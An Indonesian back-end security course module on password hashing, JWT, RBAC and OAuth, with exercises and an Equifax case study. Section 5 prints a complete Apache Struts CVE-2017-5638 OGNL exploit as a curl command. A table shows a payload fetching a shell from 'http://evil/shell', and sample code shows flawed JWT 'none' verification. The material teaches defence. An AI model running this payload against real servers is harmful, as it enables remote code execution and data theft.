

# Modul 150: Back-End: Keamanan Otentikasi & Otorisasi (Argon2id, Session Cookies, JWT, OAuth 2.0, OIDC, Passkeys WebAuthn, RBAC)

**Navigasi**: [⬅️ Master Index](../../INDEX.md) | [Tingkat 9: Tingkat 9: Software Engineering, Front-End, Back-End, Full-Stack & Cloud/SRE](./README.md)
*Sebelumnya*: [149. back-end-arsitektur-server-http-api](./149-back-end-arsitektur-server-http-api.md) | *Berikutnya*: [151. back-end-strategi-caching-multi-tingkat](./151-back-end-strategi-caching-multi-tingkat.md)

---

## 1. Intuisi Dasar Tanpa Jargon ("Seperti Bayi Baru Lahir")
### 1.1 Siapa Anda dan Apa Hak Akses Anda? ([OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html))
Dalam dunia rekayasa perangkat lunak, dua konsep ini sering tertukar padahal memiliki fungsi yang sangat berbeda:
- **Otentikasi (Authentication / AuthN)**: "Membuktikan siapa Anda" (misalnya memasukkan kata sandi, kode OTP SMS, atau sidik jari biometrik).
- **Otorisasi (Authorization / AuthZ)**: "Menentukan apa yang boleh Anda lakukan setelah identitas Anda terbukti" (misalnya seorang pengguna biasa tidak boleh menghapus database atau mengedit profil pengguna lain).

### 1.2 Mengapa Kata Sandi Klasik Sedang Ditinggalkan? ([FIDO Alliance WebAuthn Standards](https://fidoalliance.org/fido2/))
Menyimpan kata sandi di database adalah tanggung jawab besar yang berbahaya. Jika database bocor, jutaan akun pengguna terancam bahaya. Protokol modern berevolusi:
1. **Hashing Kata Sandi Kuat (Argon2id)**: Bukan lagi MD5 atau SHA-256 yang mudah diretas menggunakan GPU penambang, melainkan algoritma yang sengaja dibuat "rakus memori" (*memory-hard*) untuk menggagalkan serangan peretasan perangkat keras.
2. **Token Tanpa Status (JSON Web Tokens / JWT)**: Tiket digital terenkripsi yang memungkinkan server memverifikasi hak akses pengguna tanpa perlu menanyakan database pada setiap permintaan kueri.
3. **Kunci Sandi Masa Depan (Passkeys & WebAuthn)**: Mengeliminasi kata sandi teks sepenuhnya menggunakan kriptografi kunci publik asimetris dan sensor biometrik perangkat fisik.

## 2. Fondasi Teoretis & Aksiomatik / Matematis
### 2.1 Formulasi Matematis Hashing Password Ramah Memori Argon2id ([Biryukov, Dinu, Khovratovich, 2015](https://www.password-hashing.net/argon2-specs.pdf))
Pemenang kompetisi Password Hashing Competition (PHC), Argon2id menggabungkan pertahanan terhadap serangan side-channel (Argon2i) dan serangan perangkat keras GPU/ASIC berkecepatan tinggi (Argon2d).
Parameter konfigurasi formal Argon2id:
- Biaya Waktu (*Time Cost* $t$): Jumlah iterasi loop pemrosesan blok.
- Biaya Memori (*Memory Cost* $m$): Ukuran buffer RAM dalam KiB (misal 64 MB).
- Paralelisme (*Parallelism* $p$): Jumlah thread CPU simultan.
Matriks blok memori $B[i][j]$ diisi menggunakan fungsi kompresi berbasis permutasi Blake2b:
$$B[i][j] = G(B[i][j-1], B[i'][j'])$$
Di mana indeks acak $(i', j')$ dihitung dari nilai pseudo-acak memori sebelumnya. Struktur ini memaksa penyerang yang membangun chip ASIC khusus harus menyediakan modul RAM fisik raksasa untuk setiap thread peretasan, melipatgandakan biaya perangkat keras penyerang hingga jutaan dolar.

### 2.2 Struktur Kriptografis Token JWT & Otorisasi RBAC ([RFC 7519 JSON Web Token](https://datatracker.ietf.org/doc/html/rfc7519))
Struktur token JWT terdiri dari tiga segmen base64url yang dipisahkan oleh titik:
$$\text{JWT} = \text{Base64Url}(\text{Header}) \, . \, \text{Base64Url}(\text{Payload}) \, . \, \text{Base64Url}(\text{Signature})$$
Tanda tangan digital menggunakan algoritma HMAC-SHA256 (HS256) dengan kunci rahasia $K$:
$$\text{Signature} = \text{HMAC-SHA256}_{K}(\text{Base64Url}(\text{Header}) \parallel \text{"."} \parallel \text{Base64Url}(\text{Payload}))$$
Aturan Role-Based Access Control (RBAC) dimodelkan sebagai relasi predikat matematis:
Diberikan himpunan Pengguna $U$, Peran $R$, dan Izin Akses $P$:
$$\text{BolehAkses}(u, p) \iff \exists r \in R \quad \text{sedemikian rupa sehingga} \quad (u, r) \in \text{UserRoles} \land (r, p) \in \text{RolePermissions}$$

## 3. Anatomi Teknis & Cara Kerja Internal


#### Tabel Walkthrough Validasi Token JWT pada Server API
| Komponen Token | Data yang Diterima | Proses Validasi Keamanan | Status Keamanan |
|---|---|---|---|
| Header | `{"alg": "HS256", "typ": "JWT"}` | Verifikasi algoritma bukan `"none"` | Lolos (Algoritma Sah) |
| Payload (Claims) | `{"sub": "123", "exp": 1799999999, "role": "admin"}` | Evaluasi waktu kedaluwarsa: $\text{exp} > \text{timestamp\_now}$ | Lolos (Token Belum Basi) |
| Signature | `HMAC-SHA256(Header . Payload, Secret)` | Bandingkan tanda tangan dengan perhitungan ulang server | Lolos (Integritas Terjamin) |
| Hak Akses (AuthZ) | `role == "admin"` | Periksa izin terhadap endpoint yang diminta | Izin Diberikan |

#### Tabel Penelusuran Kerentanan Apache Struts OGNL Remote Code Execution (Equifax Breach CVE-2017-5638)
| Tahap Pemrosesan HTTP Header | Nilai Header `Content-Type` yang Diterima | Parser Sub-sistem Jakarta Multipart | Status Evaluasi Ekspresi OGNL | Hak Akses Eksekusi Biner Server | Konsekuensi Keamanan Sistem |
|---|---|---|---|---|---|
| Header Masukan | `Content-Type: %{(#_='multipart/form-data')...}` | Memeriksa string header masukan | Karakter `%{#` terdeteksi | Berjalan di bawah akun `tomcat` | Permintaan HTTP jahat masuk |
| Parsing Gagal | Format content-type tidak valid | Parser melempar pesan kesalahan exception | Exception handler membuat pesan error | Pesan error menyertakan raw string input | Menyiapkan teks respons error |
| Evaluasi OGNL | Exception handler memanggil OGNL | Menguraikan string error via `TextParseUtil` | **MENGEKSEKUSI OGNL PAYLOAD DI DALAM HEADER!**| OGNL mengakses `java.lang.ProcessBuilder` | **REMOTE CODE EXECUTION (RCE) AKTIF!**|
| Eksekusi Shellcode | Payload menjalankan perintah shell | `ProcessBuilder("curl", "http://evil/shell")` | Meluncurkan shellcode Linux | Penyerang mengendalikan server penuh | Pintu belakang berhasil ditanam |
| Eksfiltrasi Data | Pencurian data dari basis data internal | Mengakses basis data riwayat kredit | Ekstraksi 147 juta data warga negara | Nol enkripsi data at rest | **SKANDAL KEBOCORAN TERBESAR SEJARAH!**|

## 4. Implementasi Praktis & Kode / Simulasi Riil
```python
import time
import base64
import hmac
import hashlib
import json

class SimpleJWT:
    def __init__(self, secret_key: str):
        self.secret = secret_key.encode('utf-8')

    def _b64_encode(self, data: bytes) -> str:
        return base64.urlsafe_b64encode(data).decode('utf-8').rstrip('=')

    def _b64_decode(self, s: str) -> bytes:
        padding = '=' * (4 - len(s) % 4) if len(s) % 4 != 0 else ''
        return base64.urlsafe_b64decode(s + padding)

    def generate_token(self, user_id: str, role: str, expiry_seconds: int = 3600) -> str:
        header = {"alg": "HS256", "typ": "JWT"}
        payload = {
            "sub": user_id,
            "role": role,
            "exp": int(time.time()) + expiry_seconds
        }
        h_bytes = self._b64_encode(json.dumps(header).encode('utf-8'))
        p_bytes = self._b64_encode(json.dumps(payload).encode('utf-8'))
        message = f"{h_bytes}.{p_bytes}".encode('utf-8')

        sig = hmac.new(self.secret, message, hashlib.sha256).digest()
        sig_bytes = self._b64_encode(sig)

        return f"{h_bytes}.{p_bytes}.{sig_bytes}"

    def verify_token(self, token: str) -> dict:
        parts = token.split('.')
        if len(parts) != 3:
            raise ValueError("Struktur format JWT tidak valid!")

        h_bytes, p_bytes, sig_bytes = parts
        message = f"{h_bytes}.{p_bytes}".encode('utf-8')
        expected_sig = self._b64_encode(hmac.new(self.secret, message, hashlib.sha256).digest())

        # Gunakan hmac.compare_digest untuk mencegah Timing Attacks!
        if not hmac.compare_digest(sig_bytes, expected_sig):
            raise PermissionError("Tanda tangan JWT tidak cocok / terkorupsi!")

        payload = json.loads(self._b64_decode(p_bytes).decode('utf-8'))
        if time.time() > payload.get("exp", 0):
            raise TimeoutError("Token telah kedaluwarsa!")

        return payload
```

## 5. Miskonsepsi & Jebakan Industri
### Studi Kasus Kegagalan Nyata: Kerentanan Bencana Algoritma `"none"` pada Implementasi JWT Global
- **Kronologi & Latar Belakang**: Pada tahun 2015, peneliti keamanan menemukan bahwa banyak library open-source populer JWT (Node.js, Python, Java) memiliki kerentanan pembobolan otentikasi kritis yang memungkinkan siapa saja menjadi administrator sistem tanpa mengetahui kunci rahasia server.
- **Akar Masalah**: Spesifikasi standar RFC 7519 mencakup opsi algoritma `"alg": "none"` untuk keperluan pengujian. Banyak implementasi server secara naif mempercayai nilai header yang dikirim oleh penyerang:
```javascript
// KODE CACAT VERIFIKASI JWT:
const header = decodeHeader(token);
if (header.alg === 'none') {
    return payload; // Tanda tangan diabaikan dan dianggap valid seketika!
}
```
Penyerang cukup mengubah isi payload token menjadi `{"role": "admin"}` dan mengganti header menjadi `{"alg": "none"}`, melewati seluruh sistem keamanan.
- **Rekomendasi Industri**: Konfigurasikan library verifikasi JWT untuk menggunakan algoritma yang telah ditentukan secara eksplisit di server (*White-listed Algorithms*). Jangan pernah mengizinkan penyerang menentukan algoritma verifikasi melalui header paket masukan.

### Studi Kasus Kegagalan Nyata: Pembobolan Data Massal 147 Juta Warga Negara Equifax Akibat Celah Apache Struts OGNL (CVE-2017-5638)
- **Kronologi & Konteks Sejarah**: Antara Mei dan Juli 2017, biro pemeringkat kredit keuangan raksasa Amerika Serikat, Equifax, diretas oleh penyerang siber. Informasi pribadi sensitif milik lebih dari 147 juta warga negara Amerika (termasuk nama lengkap, nomor Jaminan Sosial / SSN, tanggal lahir, alamat rumah, dan nomor kartu kredit) dicuri, memicu pengunduran diri CEO, penyelidikan kongres AS, dan denda penyelesaian senilai lebih dari 700 juta dolar.
- **Akar Masalah Keamanan Backend & Injeksi Ekspresi OGNL**: Celah keamanan berada pada framework backend Apache Struts 2 yang digunakan pada portal sengketa online Equifax. Ketika sebuah permintaan HTTP dengan header `Content-Type` yang tidak valid diterima, parser `JakartaMultiPartRequest` melempar pesan error yang secara keliru diteruskan ke mesin evaluasi ekspresi *Object-Graph Navigation Language* (OGNL). Penyerang menyisipkan ekspresi OGNL khusus yang diawali dengan karakter `#` di dalam header `Content-Type`. Mesin OGNL mengevaluasi string tersebut sebagai kode Java yang dapat dieksekusi, mengizinkan penyerang memanggil kelas Java internal (`java.lang.ProcessBuilder`) untuk mengeksekusi sembarang perintah biner sistem operasi di server. Meskipun patch resmi telah dirilis oleh Apache pada Maret 2017, tim operasi Equifax gagal memperbarui sistem mereka selama berbulan-bulan akibat ketiadaan inventaris aset perangkat lunak yang terkelola.

- **Potongan Kode / Arsitektur Cacat (Vulnerable Implementation)**:
```bash
# Rekonstruksi Header Eksploitasi RCE Apache Struts (CVE-2017-5638)
# Penyerang menyuntikkan payload eksekusi kode OGNL langsung ke dalam header Content-Type:
curl -X POST "http://vulnerable-equifax-server/dispute.action" \
  -H "User-Agent: Mozilla/5.0" \
  -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

# Dampak: Perintah 'whoami' dieksekusi di server dan mengembalikan hak akses sistemik ke penyerang!
```

- **Analisis Forensik & Rekayasa Modern**: Skandal Equifax mengubah drastis disiplin manajemen kerentanan dan keamanan rantai pasok perangkat lunak (*Software Supply Chain Security*). Industri modern mewajibkan: (1) Penerapan *Software Bill of Materials* (SBOM) terotomatisasi yang melacak setiap pustaka open-source pihak ketiga di basis kode; (2) Pemindaian kerentanan CVE berkelanjutan dalam pipeline CI/CD (seperti Snyk, Trivy, Dependabot); (3) Penerapan prinsip *Least Privilege* dan isolasi container tanpa izin tulis (*Read-Only Root Filesystem*) yang membatasi kerusakan jika celah RCE terjadi.

## 6. Proyek Latihan & Rubrik Penilaian Mandiri
### Level 1 (Pemula)
- **Tugas**: Jelaskan mengapa fungsi pembanding string standar `a == b` rentan terhadap serangan keamanan *Timing Attack* saat memverifikasi token rahasia, dan mengapa `hmac.compare_digest()` wajib digunakan.
- **Petunjuk Arsitektur**: Pembanding standar berhenti seketika saat menemukan karakter pertama yang berbeda (waktu eksekusi bervariasi bergantung posisi kesalahan), membocorkan informasi rahasia ke penyerang.
- **Vektor Uji**:
  - Konsep kunci: Waktu perbandingan konstan (*Constant-Time Comparison*).
- **Rubrik Penilaian**: Penjelasan mekanisme timing attack (50%), prinsip operasi waktu konstan (30%), kebersihan bahasa (20%).

### Level 2 (Menengah)
- **Tugas**: Implementasikan alur otentikasi kata sandi lengkap di Python menggunakan modul `hashlib` dengan salt acak 16-byte kriptografis dari `os.urandom()` dan algoritma PBKDF2-HMAC-SHA256 (100.000 iterasi).
- **Petunjuk Arsitektur**: Simpan salt dan hash dalam satu string terformat `$pbkdf2$iterations$salt_hex$hash_hex`.
- **Vektor Uji**:
  - Verifikasi password yang benar harus mengembalikan `True`.
  - Password yang salah (bahkan beda 1 karakter) harus mengembalikan `False`.
- **Rubrik Penilaian**: Pembangkitan salt acak aman (40%), iterasi PBKDF2 memenuhi standar (30%), fungsi verifikasi defensif (30%).

### Level 3 (Mahir)
- **Tugas**: Bangun sistem Otorisasi Berbasis Atribut (*Attribute-Based Access Control / ABAC*) mini yang mengevaluasi kebijakan akses berbentuk formula logika Boolean JSON berdasarkan atribut pengguna, atribut sumber daya, dan atribut lingkungan (seperti waktu hari dan IP jaringan).
- **Petunjuk Arsitektur**: Buat evaluator kebijakan yang memeriksa kondisi: `User.Department == Resource.Department AND Environment.Hour BETWEEN 9 AND 17`.
- **Vektor Uji**:
  - Evaluasi hak akses dokter terhadap rekam medis pasien di rumah sakit pada jam kerja (Izinkan) vs luar jam kerja dari jaringan publik (Tolak).
- **Rubrik Penilaian**: Fleksibilitas mesin evaluasi ABAC (40%), kepatuhan prinsip least privilege (30%), struktur arsitektur modular (30%).

### Tingkat 1: Dasar
- **Tugas**: Bangun fungsi hashing password satu arah (*One-Way Password Hasher*) mandiri dalam Python menggunakan algoritma modern standar emas *Argon2id* (atau bcrypt) yang menegakkan parameter keamanan adaptif: biaya memori ($64\text{ MiB}$), biaya iterasi waktu ($3$ passes), dan paralelisme ($4$ threads) dengan pembangkitan garam kriptografis acak (*Salt*) 16-byte unik per-password.
- **Petunjuk Perancangan Arsitektur**:
  - Gunakan pustaka resmi `argon2-cffi` atau modul kriptografi yang tervalidasi.
  - Sediakan fungsi `hash_password(raw_password)` dan `verify_password(raw_password, hashed_str)`.
- **Test Vector & Kasus Uji Ekstrem**:
  - *Verifikasi Hash*: Hash password `"Rahasia123!"`; verifikasi password yang sama menghasilkan hash string berbeda setiap kali dipanggil (karena garam unik), namun `verify_password` selalu mengembalikan `true`.
- **Rubrik Penilaian Mandiri**: 40% Penerapan Algoritma Argon2id Sesuai Rekomendasi OWASP, 30% Verifikasi Keunikan Salt Kriptografis, 30% Kekebalan Terhadap Serangan Timing (Constant-Time Compare).

### Tingkat 2: Menengah
- **Tugas**: Kembangkan layanan otentikasi berbasis *JSON Web Token* (JWT) dalam Python/Node.js yang menandatangani token menggunakan algoritma asimetris RSA/ECDSA (RS256/ES256 dengan kunci privat), memverifikasi tanda tangan menggunakan kunci publik, menegakkan klaim waktu kedaluwarsa (`exp`), dan menolak secara tegas serangan *Algorithm Confusion Attack* (pemaksaan algoritma `none` atau manipulasi kunci simetris HS256).
- **Petunjuk Perancangan Arsitektur**:
  - Pisahkan tiga segmen JWT: `Header`, `Payload`, `Signature` yang di-encode Base64URL.
  - Validasi bahwa algoritma pada header token cocok persis dengan algoritma yang diizinkan oleh server (*Strict Algorithm Whitelisting*).
- **Test Vector & Kasus Uji Ekstrem**:
  - *Serangan Algoritma "none"*: Kirimkan JWT palsu dengan header `{"alg": "none"}`; verifikasi server menolak token dengan error `SecurityException: Algoritma none dilarang`.
- **Rubrik Penilaian Mandiri**: 40% Penandatanganan Kriptografi Asimetris RS256 yang Benar, 30% Kekebalan Mutlak Terhadap Serangan Algorithm Confusion, 30% Penegakan Klaim Kadaluarsa exp.

### Tingkat 3: Mahir
- **Tugas**: Rancang server otorisasi protokol *OAuth 2.0* lengkap dengan alur *Proof Key for Code Exchange* (PKCE / RFC 7636) dalam Python/Node.js untuk melindungi otorisasi aplikasi klien publik dari serangan intersepsi kode otorisasi (*Authorization Code Interception Attack*).
- **Petunjuk Perancangan Arsitektur**:
  - Klien membangkitkan `code_verifier` acak (kriptografis 128 karakter) dan menghitung `code_challenge = BASE64URL(SHA256(code_verifier))`.
  - Server memvalidasi transformasi hash `code_verifier` saat penukaran token access sebelum menerbitkan JWT.
- **Test Vector & Kasus Uji Ekstrem**:
  - *Penukaran Kode Otorisasi*: Tukar `authorization_code` dengan `code_verifier` yang salah; server harus menolak dengan kode galat `invalid_grant` dan membatalkan seluruh sesi otentikasi.
- **Rubrik Penilaian Mandiri**: 40% Kepatuhan Alur Protokol OAuth 2.0 PKCE RFC 7636, 30% Verifikasi Transformasi Kriptografis SHA-256 yang Tepat, 30% Keamanan Penerbitan Token Terisolasi.

## 7. Rekomendasi Sumber Belajar Standar Emas
| Kategori | Judul Sumber & Tautan | Penulis / Institusi | Fokus Pembahasan |
|---|---|---|---|
| Standar Resmi | [RFC 7519: JSON Web Token (JWT)](https://datatracker.ietf.org/doc/html/rfc7519) | IETF OAuth Working Group | Spesifikasi formal arsitektur klaim payload dan verifikasi tanda tangan digital JWT |
| Spesifikasi Kriptografi | [Argon2: The Memory-Hard Function for Password Hashing](https://www.password-hashing.net/argon2-specs.pdf) | Alex Biryukov, Daniel Dinu, Dmitry Khovratovich | Spesifikasi matematika formal algoritma pemenang kompetisi password hashing dunia |
| Praktik Terbaik Keamanan | [OWASP Top 10 API Security Risks: Broken Authentication](https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/) | OWASP Foundation | Taksonomi kerentanan otentikasi API, pembajakan token, dan strategi mitigasi industri |

---
*Navigasi Cepat*: [Ke Tingkat 9](./README.md) | [Ke Master Index](../../INDEX.md) | *Sebelumnya*: [149. back-end-arsitektur-server-http-api](./149-back-end-arsitektur-server-http-api.md) | *Berikutnya*: [151. back-end-strategi-caching-multi-tingkat](./151-back-end-strategi-caching-multi-tingkat.md)
